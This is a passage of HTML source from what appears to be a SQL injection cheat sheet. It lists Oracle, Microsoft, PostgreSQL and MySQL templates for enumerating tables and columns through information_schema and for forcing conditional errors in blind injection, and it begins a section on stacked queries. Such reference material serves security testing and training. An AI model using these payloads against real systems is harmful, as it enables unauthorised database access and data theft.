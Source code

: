                 </th>
                <td><code>
                    SELECT * FROM information_schema.tables<br>
                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br>
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td><code>
                    SELECT * FROM information_schema.tables<br>
                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br>
                </code></td>
            </tr>
        </table>
        <h2 id="conditional-errors">Conditional errors</h2>
        <p>
            You can test a single boolean condition and trigger a database error if the condition is true.
        </p>
        <table class="is-nonresponsive-table">
            <tr>
                <th>
                    Oracle
                </th>
                <td><code>
                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
                </code></td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td><code>
                    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
                </code></td>
            </tr>
        </table>
        <h2 id="batched-or-stacked-queries">Batched (or stacked) queries</h2>
        <p>
            You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
        </p>
        <table class="is-nonresponsive-table">
            <tr>
                <th>